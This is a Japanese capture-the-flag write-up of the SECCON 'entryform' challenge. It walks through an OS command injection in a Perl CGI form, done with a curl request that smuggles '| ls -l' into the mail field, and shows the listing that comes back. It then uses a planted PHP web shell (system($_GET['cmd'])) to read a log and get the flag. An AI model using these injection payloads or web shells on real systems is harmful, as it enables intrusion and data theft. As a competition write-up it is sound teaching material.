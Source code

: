 ```perl
  print LOG "".$q->param("mail")."\t".$q->param("name")."\n";
  close(LOG);

  print "<h1>Your entry was sent. <a href='?' style='color:#52d6eb'>Go Back</a></h1>";
  exit;
}

print <<'EOM';
</pre><table border="0" style="margin:30px">
<tr><td>Your E-Mail address:</td><td><input type="email" name="mail" size="30" required></td></tr>
<tr><td>Your Name:</td><td><input type="text" name="name" size="30" required></td></tr>
<tr><td colspan="2"><input type="submit" name="action" value="Send" style="background-color:#52d6eb;border-style:none;padding:5px;margin:10px"></td></tr>
</table>
</form>
</body>
</html>
EOM

1;
```

`http://host/log` というログが書かれているファイルをどうにか読めば良さそう。
初めはmailsendを使ってるので、メールヘッダインジェクションかなって思ったけど、普通にopenコマンドの所にOSコマンドインジェクションがある。

`curl -i -X GET "http://entryform.pwn.seccon.jp/register.cgi?mail='%20|ls%20-l'&name=hoge&action=Send"` こんな感じで叩いてやると、HTMLの中にls結果が紛れてくる。

```
<form action="?" method="get"><pre>
total 772
dr-xr-xr-x 2 root   root   4096 Dec  1 21:52 SECRETS
-r---w---- 1 apache cgi  769650 Dec  5 18:16 log
-r--r--r-- 1 root   root   1132 May 15  2015 logo.png
-r-xr-xr-x 1 cgi    cgi    1583 Dec  1 22:02 register.cgi
-r--r--r-- 1 root   root   1583 Dec  1 22:25 register.cgi_bak
<h1>Your entry was sent. <a href='?' style='color:#52d6eb'>Go Back</a></h1>%
```

`SECRET` ディレクトリの中に`backdoor123.php`というのがあって、catで表示させてみると。

```
<pre><?php system($_GET['cmd']); ?></pre>
```

`backdoor123.php` はrootで実行されてるため、logの中身を見れるよう。(いたずらも出来そう)

`curl -i -X GET "http://entryform.pwn.seccon.jp/SECRET/backdoor123.php?cmd=head%20../log"`

`SECCON{Glory_will_shine_on_you.}`

### 使ったツール
- curl

## Bonsai XSS Revolutions
